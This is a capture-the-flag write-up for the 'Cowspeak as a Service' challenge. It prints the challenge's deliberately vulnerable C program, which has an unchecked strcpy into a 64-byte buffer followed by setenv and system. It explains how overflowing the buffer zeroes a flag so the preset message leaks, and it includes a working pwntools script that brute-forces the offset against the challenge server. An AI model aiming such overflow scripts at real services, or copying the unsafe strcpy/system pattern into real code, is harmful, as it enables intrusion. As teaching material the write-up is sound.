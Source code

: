 # Cowspeak as a Service (CaaS) 250pts (29 solves) #

![TASK](https://imgur.com/xNtRfrq.png)

I liked the idea of the task, we are given the source code and we have to print the first message

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void moo(char *msg)
{
        char speak[64];
        int chief_cow = 1;

        strcpy(speak, msg);
        speak[strcspn(speak, "\r\n")] = 0;
        setenv("MSG", speak, chief_cow);

        system("./cowsay $MSG");

}

int main() {
        char buf[1024];
        setbuf(stdout, NULL);
        puts("Welcome to Cowsay as a Service (CaaS)!\n");
        puts("Enter your message: \n");

        fgets(buf, 1024, stdin);
        moo(buf);

        return 0;
}

```

We can notice the buffer overflow of the speak buffer in moo function, but we won't be able here to spawn a shell and that's not the purpose of the task xd , if we
read about setenv function we can notice that if its third parameter is different than zero it will overwrite the environment variable if it already exists , and if it's equal to zero it won't overwrite it.

So the idea is clear now, we will use the BOF to make the **speak[strcspn(speak, "\r\n")] = 0;** line sets the chief_cow variable to zero.

Here is my full exploit :

```python
from pwn import *
for i in range(60,90):
        p=remote("192.241.138.174",9998)
        p.recvuntil("message:")
        payload="A"*i+"\r\n\x00"
        p.sendline(payload)
        data=p.recvuntil("""                ||     ||
""")
        if "UMD" in data :
                log.info("Fouuuuund at: "+str(i))
                print data
                break
        p.close()
```

The offset was 74 which is logic . If you have any questions you can DM on twitter @BelkahlaAhmed1 and thank you :D
